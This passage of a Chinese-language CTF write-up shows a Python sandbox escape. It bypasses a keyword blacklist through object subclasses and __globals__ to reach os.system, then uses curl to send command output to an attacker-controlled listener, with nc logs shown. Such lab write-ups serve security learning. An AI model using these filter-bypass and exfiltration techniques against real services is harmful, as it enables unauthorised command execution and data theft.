 看起来有关键词黑名单检测，基本检测下来包含有

- import
- system
- popen
- subprocess
- exec
- open
- read
- eval

尝试查看当前的环境中有哪些变量

```python
> print(dir())
['code', 'keyword', 'old_stdout', 'redirected_output']
```

这些变量没啥有用的信息

参考有关 Pyjail 的相关文章，决定从 str 的内置类入手

```python
> print("".__class__.__base__.__subclasses__())
......

> for index,i in enumerate("".__class__.__base__.__subclasses__()):
>    if "o" + "s." in str(i):
>        print(index, i)
132 <class 'os._wrap_close'>

> print("".__class__.__base__.__subclasses__()[132])
<class 'os._wrap_close'>
```

然后从__globals__就可以得到 os 库

```python
> print("".__class__.__base__.__subclasses__()[132].__init__.__globals__)
{'__name__': 'os', '__doc__': "OS routines for NT or Posix depending on what system we're on.\n\nThis exports:\n - all functions from posix or nt, e.g. unlink, stat, etc.\n - os.path is either posixpath......
```

得到 os 库之后，就可以执行命令了

```python
> print("".__class__.__base__.__subclasses__()[132].__init__.__globals__["syste"+"m"])
<built-in function system>
```

由于 `print(os.system())` 不会直接返回命令的执行结果，所以可以尝试通过 curl 和 wget 进行数据传输

```shell
# 服务器
> func = "".__class__.__base__.__subclasses__()[132].__init__.__globals__["syste"+"m"]

> print(func("curl 10.10.16.31:9999/`whoami`"))

# Kali
┌──(randark ㉿ kali)-[~]
└─$ nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.10.16.31] from (UNKNOWN) [10.10.11.62] 47658
GET /app-production HTTP/1.1
Host: 10.10.16.31:9999
User-Agent: curl/7.68.0
Accept: */*
```
